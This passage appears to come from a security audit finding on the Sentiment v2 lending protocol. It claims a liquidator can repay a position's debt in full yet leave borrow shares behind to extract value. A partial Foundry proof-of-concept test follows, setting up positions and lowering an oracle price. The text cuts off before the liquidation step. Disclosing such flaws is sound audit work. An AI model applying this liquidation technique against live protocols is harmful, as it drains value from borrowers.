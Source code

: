 In both instances, although all of debt is repaid, the liquidator can control the amount of borrow shares remaining; thus they can fully liquidate a position but allow the position to grow more unhealthy as a means of value extraction.

### LiquidationTest.t.sol

To verify the following proof of concept, copy the `testLiquidateUnfairly` function to [`test/LiquidationTest.t.sol`](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/test/integration/LiquidationTest.t.sol#L12C10-L12C25):

```solidity
/// @notice The liquidator can leave outstanding debt obligations
/// @notice for fully-repaid loans.
function testLiquidateUnfairly() public {

    /// @notice The environment variable `SHOULD_LIQUIDATE_UNFAIRLY` can
    /// @notice can be used to toggle between the different cases:
    bool shouldLiquidateUnfairly = vm.envExists("SHOULD_LIQUIDATE_UNFAIRLY")
        && vm.envBool("SHOULD_LIQUIDATE_UNFAIRLY");

    /// @dev Prepare assets for the two users:
    asset1.mint(lender, 200e18);
    asset2.mint(user, 200e18);

    vm.prank(user);
        asset2.approve(address(positionManager), type(uint256).max);

    /// @dev Create positions for both users.
    (address userPosition, Action memory userAction)
        = newPosition(user, bytes32(uint256(0x123456789)));

    /// @dev Let's also assume the pool has deep liquidity:
    vm.startPrank(lender);
        asset1.approve(address(pool), type(uint256).max);
        pool.deposit(fixedRatePool, 100e18, lender);
    vm.stopPrank();

    /// @dev Let's create a borrow positions for the `user`:
    Action[] memory actions = new Action[](4);
    {
        vm.startPrank(user);
            actions[0] = userAction;
            actions[1] = deposit(address(asset2), 1e18);
            actions[2] = addToken(address(asset2));
            actions[3] = borrow(fixedRatePool, 0.5e18);
            positionManager.processBatch(userPosition, actions);
        vm.stopPrank();
    }

    /// @dev Created position is healthy:
    assertTrue(riskEngine.isPositionHealthy(userPosition));

    /// @dev Okay, let's assume due to market conditions,
    /// @dev asset2 deprecations and the position has become
    /// @dev liquidatable:
    vm.startPrank(protocolOwner);
        riskEngine.setOracle(address(asset2), address(new FixedPriceOracle(0.99e18))); // 1 asset2 = 0.99 eth
    vm.stopPrank();

    /// @dev Created position is unhealthy:
    assertFalse(riskEngine.isPositionHealthy(userPosition));

```